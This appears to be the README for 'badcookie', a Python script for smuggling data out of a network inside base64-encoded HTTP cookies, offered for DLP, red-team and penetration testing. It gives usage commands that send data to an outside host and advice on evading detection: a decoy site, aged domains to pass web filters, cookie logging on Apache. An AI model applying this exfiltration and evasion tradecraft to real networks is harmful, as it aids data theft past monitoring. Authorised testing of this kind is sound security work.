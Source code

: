 # Requirements
Python 2.7

### Libraries
* Requests

# Description
Bad cookie exfiltrates data via base64 encoded HTTP cookies.

# Some use cases
* The script can be used for testing the effectiveness of data loss prevention systems.
* Outbound network traffic monitoring systems.
* Red Team / Blue team exercises e.g. see if the blue team can detect data exfiltraion.
* Penetration testing activities

#Things to keep in mind
* The script transmits data via http not https
* Base64 encoded data can be easily decoded
* Be mindful of the cookie size 

#Usage
`badcookie.py <destination_host> <exfiltrated_data>`

`Example(1): badcookie.py 10.0.0.2 "very important data"`

`Example(2): badcookie.py www.secretsite.com "very important data"`

Use quotes if you plan to transmit data with whitespace


#Setting up the data exfiltration process

* To make the network traffic look convincing setup a site with a proper domain. It can be a news, blog or any other site. So when you exfiltrate data the network traffic will look like normal web traffic going to a legitimate site. (atleast this is what we are trying to accomplish)
* Fill the site with some real looking content
* If you are testing systems where there is a web filtering proxy involved, try and use domain which is  more than a year old as web filtering proxies block new domains. In either case using an aged domain name will be beneficial.
* Avoid sending data using IP addresses.
* Enable  logging of http cookies in apache ( you can use any server you like). The sample config file in this repository “000-default.conf” in the  “apache_conf” folder can be used to enable cookie logging. Place config file in /etc/apache2/sites-enabled/ and restart Apache.  You should now see a file called “cookies.log” in /var/log/apache2.
* Execute the badcookie script.
* After executing the script you should see the following log entry in cookies.log. The log shows the transmitted base64 cookie.

`10.0.0.2 - - [13/Jun/2015:18:48:17 -0500] "GET / HTTP/1.1" 200 3256 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64; Trident/7.0; MDDCJS; :11.0) like Gecko" "dGVzdGluZw=="`

* You can now decode the base64 encoded data.

* Please note that the above process is just a suggestion, you can setup the exfiltration process anyway you like.

* Have fun
